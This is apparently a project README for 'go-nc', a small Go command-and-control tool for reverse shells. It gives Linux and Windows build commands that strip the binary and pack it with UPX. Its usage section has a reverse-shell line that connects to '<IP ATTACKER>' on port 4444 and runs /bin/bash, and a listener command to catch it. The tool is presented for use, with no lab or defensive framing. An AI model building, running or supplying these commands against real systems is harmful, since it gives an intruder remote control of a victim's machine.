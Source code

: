 # go-nc
Simple Command & Control for revshells in pure Go

# Build

### For Linux
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build -ldflags "-s -w" go-nc.go
upx go-nc
```

```
-rwxr-xr-x 1 vay3t vay3t 685K Jul 15 00:21 go-nc
```

### For Windows
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" go-nc.go
upx go-nc.exe
```

```
-rwxr-xr-x 1 vay3t vay3t 825K Jul 15 00:30 go-nc.exe
```

# Usage

### Reverse shell
```bash
./go-nc -host <IP ATTACKER> -port 4444 -exec /bin/bash
```

### Server
```bash
./go-nc -listen
```
